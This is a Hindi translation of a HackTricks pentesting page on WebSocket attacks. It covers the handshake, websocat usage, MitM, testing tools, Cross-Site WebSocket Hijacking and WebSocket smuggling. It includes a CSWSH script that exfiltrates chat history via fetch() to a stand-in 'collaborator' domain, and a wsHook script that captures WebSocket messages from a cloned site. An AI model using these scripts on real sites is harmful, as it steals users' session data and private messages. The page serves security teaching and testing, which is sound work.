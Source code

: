 # WebSocket हमले

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **मुझे** **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## WebSockets क्या हैं

WebSocket कनेक्शन **HTTP** हैंडशेक के माध्यम से स्थापित की जाती हैं और **लॉन्ग-लाइव्ड** डिज़ाइन की गई हैं, जो किसी भी समय बिना सौदा सिस्टम की आवश्यकता के दोनों दिशाओं में संदेश भेजने की अनुमति देती हैं। इससे WebSockets विशेष रूप से **कम लैटेंसी या सर्वर-प्रेरित संचार** की आवश्यकता वाले एप्लिकेशन्स के लिए अधिक फायदेमंद होती हैं, जैसे कि लाइव वित्तीय डेटा स्ट्रीम।

### WebSocket कनेक्शन की स्थापना

WebSocket कनेक्शन की स्थापना पर एक विस्तृत व्याख्या [**यहाँ**](https://infosecwriteups.com/cross-site-websocket-hijacking-cswsh-ce2a6b0747fc) से प्राप्त की जा सकती है। सारांश में, WebSocket कनेक्शन आम तौर पर नीचे दिखाए गए तरीके से क्लाइंट-साइड जावास्क्रिप्ट के माध्यम से प्रारंभ किए जाते हैं:
```javascript
var ws = new WebSocket("wss://normal-website.com/ws");
```
```
`wss` प्रोटोकॉल एक **TLS** सुरक्षित WebSocket कनेक्शन को दर्शाता है, जबकि `ws` एक **असुरक्षित** कनेक्शन को दर्शाता है।

कनेक्शन स्थापना के दौरान, ब्राउज़र और सर्वर के बीच एक हैंडशेक किया जाता है HTTP के माध्यम से। हैंडशेक प्रक्रिया में ब्राउज़र एक अनुरोध भेजता है और सर्वर का प्रतिक्रिया देता है, जैसा निम्नलिखित उदाहरणों में दिखाया गया है:

ब्राउज़र एक हैंडशेक अनुरोध भेजता है:
```
```javascript
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```
सर्वर का हैंडशेक प्रतिक्रिया:
```javascript
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```
**WebSocket हैंडशेक के मुख्य बिंदु:**

- `Connection` और `Upgrade` हेडर्स WebSocket हैंडशेक की शुरुआत का संकेत देते हैं।
- `Sec-WebSocket-Version` हेडर वांछित WebSocket प्रोटोकॉल संस्करण को दर्शाता है, आम तौर पर `13`।
- `Sec-WebSocket-Key` हेडर में एक Base64-एन्कोडेड यादृच्छिक मान भेजा जाता है, जिससे प्रत्येक हैंडशेक अद्वितीय होता है, जो कैशिंग प्रॉक्सी के साथ समस्याओं को रोकने में मदद करता है। यह मान प्रमाणीकरण के लिए नहीं है बल्कि यह सुनिश्चित करने के लिए है कि प्रतिक्रिया किसी गलत कॉन्फ़िगर किए गए सर्वर या कैश द्वारा उत्पन्न नहीं है।
- सर्वर की प्रतिक्रिया में `Sec-WebSocket-Accept` हेडर `Sec-WebSocket-Key` का हैश है, जो सर्वर की इच्छा की पुष्टि करता है कि वह एक WebSocket कनेक्शन खोलना चाहता है।

ये विशेषताएँ सुनिश्चित करती हैं कि हैंडशेक प्रक्रिया सुरक्षित और विश्वसनीय है, जो अच्छी तरह से वास्तविक समय पर संचार के लिए मार्ग खोलती है।
```bash
websocat --insecure wss://10.10.10.10:8000 -v
```
या एक वेबसोकेट सर्वर बनाने के लिए:
```bash
websocat -s 0.0.0.0:8000 #Listen in port 8000
```
### MitM websocket connections

यदि आपको पता चलता है कि ग्राहक आपके वर्तमान स्थानीय नेटवर्क से **HTTP websocket** से कनेक्ट हैं, तो आप [ARP Spoofing Attack](../generic-methodologies-and-resources/pentesting-network/#arp-spoofing) का प्रयास कर सकते हैं ग्राहक और सर्वर के बीच MitM हमला करने के लिए।\
एक बार जब ग्राहक आपसे कनेक्ट होने का प्रयास कर रहा है, तो आप निम्नलिखित का उपयोग कर सकते हैं:
```bash
websocat -E --insecure --text ws-listen:0.0.0.0:8000 wss://10.10.10.10:8000 -v
```
### वेबसॉकेट्स जांच

आप **टूल** [**https://github.com/PalindromeLabs/STEWS**](https://github.com/PalindromeLabs/STEWS) **का उपयोग करके वेबसॉकेट्स में ज्ञात** **कमजोरियों की खोज, फिंगरप्रिंट और खोज** कर सकते हैं।

### वेबसॉकेट डीबग टूल्स

* **Burp Suite** नियमित HTTP संचार के लिए जैसे ही करता है, उसी तरह से MitM वेबसॉकेट संचार का समर्थन करता है।
* [**socketsleuth**](https://github.com/snyk/socketsleuth) **Burp Suite एक्सटेंशन** आपको **इतिहास** प्राप्त करने, **अंबुषण नियम** सेट करने, **मैच और पुनः स्थापित नियम** का उपयोग करने, **Intruder** और **AutoRepeater** का उपयोग करके Burp में वेबसॉकेट संचार को बेहतर ढंग से प्रबंधित करने देगा।
* [**WSSiP**](https://github.com/nccgroup/wssip)**:** "**WebSocket/Socket.io Proxy**" के लिए छोटा, यह टूल, नोड.जेएस में लिखा गया है, एक उपयोगकर्ता इंटरफेस प्रदान करता है ताकि वह सभी वेबसॉकेट और सॉकेट.आईओ संचारों को **कैप्चर, इंटरसेप्ट, कस्टम संदेश भेजें** और देख सके।
* [**wsrepl**](https://github.com/doyensec/wsrepl) एक **इंटरैक्टिव वेबसॉकेट REPL** है जो विशेष रूप से प्रवेशन परीक्षण के लिए डिज़ाइन किया गया है। यह **आगंतुक वेबसॉकेट संदेशों को अवलोकन करने और नए भेजने** के लिए एक इंटरफेस प्रदान करता है, जिसमें इस संचार को **स्वचालित** करने के लिए एक सरल फ्रेमवर्क है।&#x20;
* [**https://websocketking.com/**](https://websocketking.com/) यह एक **वेब है** जिसका उपयोग **वेबसॉकेट्स** का उपयोग करके अन्य वेब्स के साथ **संवाद करने** के लिए किया जा सकता है।
* [**https://hoppscotch.io/realtime/websocket**](https://hoppscotch.io/realtime/websocket) अन्य प्रकार के संचार/प्रोटोकॉलों के बीच, यह एक **वेब है** जिसका उपयोग **वेबसॉकेट्स** का उपयोग करके अन्य वेब्स के साथ **संवाद करने** के लिए किया जा सकता है।

## वेबसॉकेट लैब

[**Burp-Suite-Extender-Montoya-Course**](https://github.com/federicodotta/Burp-Suite-Extender-Montoya-Course) में आपको एक कोड मिलेगा जिसका उपयोग वेबसॉकेट्स का उपयोग करके एक वेब लॉन्च करने के लिए किया जा सकता है और [**इस पोस्ट**](https://security.humanativaspa.it/extending-burp-suite-for-fun-and-profit-the-montoya-way-part-3/) में आप एक स्पष्टीकरण पा सकते हैं।

## क्रॉस-साइट वेबसॉकेट हाइजैकिंग (CSWSH)

**क्रॉस-साइट वेबसॉकेट हाइजैकिंग**, जिसे **क्रॉस-ऑरिजिन वेबसॉकेट हाइजैकिंग** के रूप में भी जाना जाता है, **[क्रॉस-साइट रिक्वेस्ट फॉर्जरी (CSRF)](csrf-cross-site-request-forgery.md)** का एक विशेष मामला माना जाता है जो वेबसॉकेट हैंडशेक को प्रभावित करता है। यह कमजोरी उत्पन्न होती है जब वेबसॉकेट हैंडशेक केवल **HTTP कुकी** के माध्यम से प्रमाणीकृत होते हैं बिना **CSRF टोकन** या समान सुरक्षा उपायों के।

हमलावर एक **कुकर्म वेब पृष्ठ** का उपयोग करके एक क्रॉस-साइट वेबसॉकेट कनेक्शन को एक कमजोर एप्लिकेशन के लिए आरंभ कर सकते हैं। इस परिणामस्वरूप, यह कनेक्शन विक्टिम के सत्र का हिस्सा के रूप में व्यावहारिक होता है, सत्र प्रबंधन तंत्र में CSRF सुरक्षा की कमी का शोषण करता है।

### सरल हमला

ध्यान दें कि **वेबसॉकेट** कनेक्शन स्थापित करते समय **कुकी** सर्वर को **भेजी** जाती है। **सर्वर** इसे उपयोग कर सकता है ताकि प्रत्येक **विशिष्ट उपयोगकर्ता को उसके वेबसॉकेट सत्र से संबंधित कर सके**।

फिर, यदि **उदाहरण** के लिए **वेबसॉकेट सर्वर** एक उपयोगकर्ता की बातचीत का इतिहास वापस भेजता है अगर एक संदेश के साथ "**READY"** भेजा जाता है, तो एक **सरल XSS** जो कनेक्शन स्थापित करता है (कुकी विक्टिम उपयोगकर्ता को अधिकृत करने के लिए **स्वचालित रूप से भेजी जाएगी**) "**READY**" भेजने के बाद बातचीत का इतिहास **पुनः प्राप्त** कर सकेगा।
```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
//Exfiltrate the confidential information to attackers server
fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
### Cross Origin + Cookie with a different subdomain

इस ब्लॉग पोस्ट [https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/](https://snyk.io/blog/gitpod-remote-code-execution-vulnerability-websockets/) में हमलावर ने **डोमेन के एक उप-डोमेन में अनियमित जावास्क्रिप्ट को क्रियान्वित करने** की प्रबंधन की। क्योंकि यह एक **उप-डोमेन** था, इसलिए **कुकी** भेजी जा रही थी, और क्योंकि **Websocket ने मूल्यांकन की उत्पत्ति सही ढंग से नहीं की थी**, इससे इसके साथ संवाद किया जा सकता था और इससे **टोकन चुराया जा सकता था**।

### उपयोगकर्ता से डेटा चुराना

उस वेब एप्लिकेशन की प्रतिरूपण करना है (उदाहरण के लिए .html फ़ाइलें) और स्क्रिप्ट के अंदर जहां वेबसॉकेट संचार हो रहा है, उसमें इस कोड को जोड़ें:
```javascript
//This is the script tag to load the websocket hooker
<script src='wsHook.js'></script>

//These are the functions that are gonig to be executed before a message
//is sent by the client or received from the server
//These code must be between some <script> tags or inside a .js file
wsHook.before = function(data, url) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "client_msg?m="+data, true);
xhttp.send();
}
wsHook.after = function(messageEvent, url, wsObject) {
var xhttp = new XMLHttpRequest();
xhttp.open("GET", "server_msg?m="+messageEvent.data, true);
xhttp.send();
return messageEvent;
}
```
अब [https://github.com/skepticfx/wshook](https://github.com/skepticfx/wshook) से `wsHook.js` फ़ाइल डाउनलोड करें और **वेब फ़ाइलों वाले फ़ोल्डर में सहेजें**।\
वेब एप्लिकेशन को उजागर करके और एक उपयोगकर्ता को इससे कनेक्ट कराने से आप websocket के माध्यम से भेजे गए और प्राप्त किए गए संदेश चुरा सकेंगे:
```javascript
sudo python3 -m http.server 80
```
## रेस कंडीशन

वेबसॉकेट्स में रेस कंडीशन भी एक चीज है, [अधिक जानने के लिए यह जानकारी देखें](race-condition.md#rc-in-websockets)।

## अन्य सुरक्षा दोष

वेब सॉकेट्स एक तंत्र हैं **सर्वर साइड और क्लाइंट साइड को डेटा भेजने के लिए**, जिस पर निर्भर करता है कि सर्वर और क्लाइंट जानकारी को कैसे संभालते हैं, **वेब सॉकेट्स का उपयोग किसी भी आम वेब दोष जैसे XSS, SQLi या किसी अन्य दोष को शामिल करने के लिए किया जा सकता है जिसमें उपयोगकर्ता के वेबसॉकेट से इनपुट का उपयोग किया जाता है।**

## **वेबसॉकेट स्मग्लिंग**

यह सुरक्षा दोष आपको **रिवर्स प्रॉक्सी प्रतिबंधों को उल्लंघन करने** की अनुमति देता है जिसे यह मानने के लिए कि एक **वेबसॉकेट संचार स्थापित हो गया था** (यदि यह सच नहीं है)। इससे हमलावर को **छिपी हुई एंडपॉइंट्स तक पहुंचने** की अनुमति हो सकती है। अधिक जानकारी के लिए निम्नलिखित पृष्ठ की जांच करें:

{% content-ref url="h2c-smuggling.md" %}
[h2c-smuggling.md](h2c-smuggling.md)
{% endcontent-ref %}

## संदर्भ

* [https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages](https://portswigger.net/web-security/websockets#intercepting-and-modifying-websocket-messages)

